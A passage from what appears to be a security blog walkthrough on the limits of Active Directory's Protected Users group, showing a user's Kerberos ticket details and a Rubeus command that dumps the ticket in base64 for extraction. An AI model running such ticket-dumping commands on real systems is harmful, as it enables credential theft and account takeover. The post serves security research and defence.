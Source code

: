 ![Details of TGT for user "thomas.anderson"](/assets/posts/2023-05-03-ProtectedUsers_NotASilverBullet/10_RubeusKlist.png)
_Details of TGT for user "thomas.anderson"_

The ticket is valid for 4 hours, one of the protections applied on members of the Protected Users group, as described earlier. 
Now, let's extract this ticket. We first dump the ticket in base64 format:
```powershell
Invoke-Binary /opt/microsoft/Rubeus.exe dump,/luid:0x3d909,/nowrap
```
{: .nolineno }
